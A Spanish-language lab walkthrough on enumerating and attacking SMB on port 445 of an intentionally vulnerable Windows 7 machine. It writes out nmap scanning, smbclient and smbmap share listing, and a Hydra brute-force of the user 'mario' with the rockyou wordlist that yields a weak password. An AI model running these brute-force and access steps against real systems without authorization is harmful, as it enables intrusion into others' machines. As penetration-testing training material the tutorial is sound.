

# Enumeración y Explotación Básica del Protocolo SMB (Puerto 445)

Maquina que vamos a utilizar **Kali Linux y Windows 7 vulnerable** ([https://drive.google.com/file/d/11oWEHwqu9AOKNwBU483abdGhnxJaZKT5/view?usp=sharing](https://drive.google.com/file/d/11oWEHwqu9AOKNwBU483abdGhnxJaZKT5/view?usp=sharing))

<aside>
💡

El protocolo SMB (Server Message Block) es un protocolo de red que permite compartir archivos, impresoras y otros recursos en una red local o a través de Internet. El puerto 445 es utilizado por SMB para comunicarse directamente sobre TCP/IP, eliminando la necesidad de NetBIOS. 

Sin embargo, SMB v1 tiene vulnerabilidades de seguridad significativas y ya no se recomienda su uso. Microsoft ha deshabilitado SMB v1 de forma predeterminada en versiones modernas de Windows debido a su susceptibilidad a ataques.

</aside>

Cuando realizamos un escaneo de puertos con nmap, es muy frecuente encontrarnos con el puerto 445 abierto dentro de una máquina windows. Esto significa que el protocolo SMB está funcionando en el objetivo; y se trata de un protocolo el cual se puede enumerar haciendo uso de distintas herramientas. Además de ser susceptible a ataques de fuerza bruta utilizando hydra.

```bash
sudo arp-scan -I eth0 --localnet
```



```bash
nmap -p- -sS -sV -sC --open -min-rate=5000 -n -vvv -Pn 10.0.3.6 -oN escaneo
```


- ¿Cómo puedo listar recursos compartidos por el protocolo SMB?
    
    Vamos a utilizar la **herramienta smbclient** para sacar estos recursos compartidos sin tener credenciales.
    
    ```bash
    smbclient -L 10.0.3.6 -N
    ```
    
    <aside>
    💡
    
    **`smbclient`**: Es una herramienta de línea de comandos que permite interactuar con servidores SMB/CIFS. Es parte del paquete Samba, comúnmente usado en sistemas basados en Linux y Unix.
    
    **`L`**: Esta opción indica que **deseas listar los recursos compartidos** disponibles en el servidor especificado.
    
    **`10.0.3.6`**: Es la dirección **IP del servidor SMB** al que te estás conectando.
    
    **`N`**: Significa que **no se enviará una contraseña al servidor**. Esto es útil **si el servidor permite acceso anónimo**.
    
    </aside>
    
    
    
    En este caso **el servidor no permite acceso sin contraseña**.
    
- Vamos a hacer un ataque por fuerza bruta con Hydra **sabiendo el usuario** (Mario)pero **no la contraseña**.
    
    ```bash
    hydra -l mario -P /usr/share/wordlists/rockyou.txt smb://10.0.3.6
    ```
    
    
    
- Sabiendo ya el usuario y contraseña vamos a listar los recursos compartidos.
    
    ```bash
    smbclient -L //10.0.3.6 -U 'mario’
    ```
    
    
    
    Pero tenemos un problema con esta información no puedo saber a que recursos podría acceder con las credenciales que tengo.
    
- Usaremos la **herramienta smbmap** que hace lo mismo que smbclient pero además nos **indica que  recursos tengo permisos**.
    
    ```bash
    smbmap -H 10.0.3.6 -u 'mario' -p '123123’
    ```
    
    
    
- Vamos a ver como puedo **entrar** dentro del **recurso compartido Users** al que tengo permiso.
    
    ```bash
    smbclient -U 'mario' //10.0.3.6/Users 
    ```
    
    
    
    
    
    Aquí estamos accediendo a una parte de la maquina victima. Como vemos no nos deja salir mas allá del recurso compartido.
    
    